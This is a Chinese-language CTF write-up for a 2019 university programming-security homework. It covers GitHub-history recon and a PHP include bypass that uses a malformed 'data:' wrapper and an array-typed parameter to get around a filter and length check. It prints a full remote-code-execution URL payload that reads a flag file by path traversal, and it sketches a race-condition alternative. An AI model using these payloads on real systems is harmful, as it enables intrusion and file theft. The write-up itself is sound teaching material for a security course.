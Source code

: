 ```yaml
---
title: "程式安全::HW3 Write-up"
description: ""
publishDate: "2019-11-21"
category: "CTF"
layout: "../../layouts/ArticleLayout.astro"
---
```



2019 年交大程式安全 HW3 write-up
哈哈是我拉😎😎😎助教拉🤙🤙🤙

# Unexploitable [100 point]

## Recon

簡單檢查一下網頁原始碼，可以發現網頁很簡單，只有 Matrix rain 特效的 javascript 還有一個檢查 konami 秘技的 k.js，
cookie 的部分也沒有什麼好看的，來檢查一下 header 可以發現該網頁可能是架在 github 上的某個靜態網站。

```sh
$ curl -kI https://unexploitable.kaibro.tw/
HTTP/2 200
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Thu, 17 Oct 2019 10:11:00 GMT
etag: "5da83e34-4f2"
access-control-allow-origin: *
expires: Wed, 20 Nov 2019 17:32:45 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: C7D4:5C02:1DA1BF:25B879:5DD57664
accept-ranges: bytes
date: Wed, 20 Nov 2019 17:22:46 GMT
via: 1.1 varnish
age: 0
x-served-by: cache-hkg17931-HKG
x-cache: MISS
x-cache-hits: 0
x-timer: S1574270566.811443,VS0,VE228
vary: Accept-Encoding
x-fastly-request-id: bc1e55a82c40be45132ceda0c55024153b3be9fb
content-length: 1266
```

又或者是在訪問 url ，例如 https://unexploitable.kaibro.tw/test ，時可能會得到錯誤：

<Image src="./unexploitable.png" alt="" />

感覺 github 上應該有藏寶，嘗試先找到 repo，透過 dig 指令找到 unexploitable.kaibro.tw. 是 bucharesti.github.io. 的 CNAME：

```sh
$ dig unexploitable.kaibro.tw

; <<>> DiG 9.10.6 <<>> unexploitable.kaibro.tw
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 36406
;; flags: qr rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 8, ADDITIONAL: 13

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;unexploitable.kaibro.tw.	IN	A

;; ANSWER SECTION:
unexploitable.kaibro.tw. 3078	IN	CNAME	bucharesti.github.io.
bucharesti.github.io.	3078	IN	A	185.199.109.153
bucharesti.github.io.	3078	IN	A	185.199.110.153
bucharesti.github.io.	3078	IN	A	185.199.111.153
bucharesti.github.io.	3078	IN	A	185.199.108.153
```

找到 repo 後可以發現目前的版本是沒有 flag 的，查看 commit 紀錄可以發現有條 commit message 是 `delete secret file`:

<Image src="./unex_2.png" alt="" />

可以在裡面找到 flag : `FLAG{baby_recon_dont_forget_to_look_github_page}`

# Safe R/W [200 point]

## Recon

首先閱讀一下 source code，可以知道流程大概是：

1. 根據使用者指紋建立一個 sandbox
2. 可指定要建立的資料夾名稱 `$f`，waf 檢查不包含 `.` `/` `-` 任一字元
3. 可指定要被 `include` 的檔案名稱 `$i`，waf 檢查不包含 `ph` 字串
4. 可指定要往檔案 `meow` 寫入的內容 `$c`，waf 檢查長度不超過 20 bytes
5. 刪除資料夾

由於 5. 會刪除資料夾，所以我們必須要在 `@include($i);` 的時候就讓他執行 php 程式碼，或者是直接把 flag include 進來，
但是作業有說 `open_basedir=/var/www/html/` 可以直接假設 flag 在這個資料夾之外，所以先不考慮第二條路。

到這裡可以發現我們首先要解決的難點是如何通過這個檢查，讓我們可以把 `<?php` 塞進去我們要 include 的檔案來 RCE：

```php
stripos(file_get_contents($i), '<') === FALSE
```

## Exploit

首先我有個大膽的想法，第一行測不到 `'<?php'`，第四行又跑出 `'<?php'` 不就洗洗睡了嗎

```php
if(isset($i) && stripos(file_get_contents($i), '<') === FALSE) {
    echo "<div class='container'>";
    echo "<h2>Here is your file content:</h2>";
    @include($i);
    echo "</div>";
}
```

看到 `file_get_contents` 應該會想到各種 protocols 跟 wrappers，
接下來可以透過 `php -a` 打開 php 的 interactive shell 做簡單的測試，
php 在 defualt 的情況下對於開檔還有 include 的設置如下：

```php
phpinfo();
...
allow_url_fopen => On => On
allow_url_include => Off => Off
```

一個有開一個沒開，
也就是說我們可能可以透過 protocols/wrapper 來讓檢查的內容與實際上被呈現的內容產生不一致，
這裡可以枚舉[各種支援的 protocols/wrapper](https://www.php.net/manual/en/wrappers.php)，
然後既然都給 source code 了，直接整份拿下來架起來 debug 最快，這裡順手打開 error message：

```php
ini_set('display_errors','1');
error_reporting(E_ALL);
```

假設遇到不支援（包括未開啟），預設會使用 `file://` 也就是直接當檔案讀，所以可以透過下列方式來測試是否可以利用：

<Image src="./safeRW.png" alt="" />

大部分的 protocols/wrapper 都需要在 config php 的時候開啟，基本上不期待遠端有打開，試下去感覺也是沒有，
本來猜想簡單的 `http:` 跟 `http:///meow` 應該可以騙過 file_get_contents 去拿取外部資源，然後在 include 時被當作路徑，
但會發現雖然 include 沒啟用 url 但是遇到 `data://` 跟 `http://` 還是會吐錯誤給你，
可以發現我們的輸入不會被當作路徑，反而會是說這個 protocol 不允許然後直接爛掉

```php
Warning: include(): data:// wrapper is disabled in the server configuration by allow_url_include=0 in /var/www/html/asdfasdfasdfasdf.php on line 46

Warning: include(data://meow): failed to open stream: no suitable wrapper could be found in /var/www/html/asdfasdfasdfasdf.php on line 46

Warning: include(): Failed opening 'data://meow' for inclusion (include_path='.:/usr/share/php') in /var/www/html/asdfasdfasdfasdf.php on line 46
```

試到 `data://` 的時候可以看到下面有個人在 11 年前告訴你 `data:` 也是支援的，在 local 測一下 `data:`跟 `data:/meow` 的組合：

```php
Warning: file_get_contents(data:/meow): failed to open stream: rfc2397: no comma in URL in /var/www/html/asdfasdfasdfasdf.php on line 41
```

發現他會在 `file_get_contents` 時吃 warning 但是 `include`卻沒噴東西出來！！
所以這裡可以透過有殘缺的 `data:` 形式讓 `file_get_contents` 打不開檔案導致回傳 `false` 從而通過判斷：

```php
php > $i = "zzz";
php > var_dump(file_get_contents($i));

Warning: file_get_contents(zzz): failed to open stream: No such file or directory in php shell code on line 1
bool(false)
php > var_dump(stripos(file_get_contents($i), '<'));

Warning: file_get_contents(zzz): failed to open stream: No such file or directory in php shell code on line 1
bool(false)
```

當然你也可以選擇透過正常的組合來通過判斷 `data:,` 跟 `data:,/meow` (`data:,/meow` 就是 plain text 的 `/meow`)：

```php
php > $i = "data:,/meow";
php > var_dump(file_get_contents($i));
string(5) "/meow"
php > var_dump(stripos(file_get_contents($i), '<') );
bool(false)
```

到這裡我們就可以 RCE 了：

<Image src="./exploit.png" alt="" />

當然可以用 20 byte 的 payload 就把 flag 猜出來
但還是有點不自由，有牆就要爬一下，這邊拿上課教的東西隨便戳個:

```php
php > $c = array('ls',' -la ',' ../../../');
php > var_dump(strlen($c) > 20);
bool(false)
php > file_put_contents("meow", $c);
php > echo file_get_contents("meow");
ls -la  ../../../
```

然後你就可以愛怎麼打怎麼打：

`https://edu-ctf.csie.org:10155/?f=data%3A&i=data%3A%2Fmeow&c[]=%3C%3Fphp+echo+%60cat+../../../../../../../../../../../../../../../../../../flag_is_here%60%3B`

flag: `FLAG{w3lc0me_t0_th3_PHP_W0r1d}`

## Other Solution

前面提到的主要思路就是：

>我有個大膽的想法，第一行測不到 `'<?php'`，第四行又跑出 `'<?php'`

這可以透過 race condition 來達成，
因為一四行間讀取的時間差，還有根據相同的 ip ， useragent 我們會一直存取到同一個資料夾，
透過多個 client 我們可以撞到幾次他檢查完我們又把內容改掉，讓已經通過檢查的 server 去 include 我們修改過的 meow。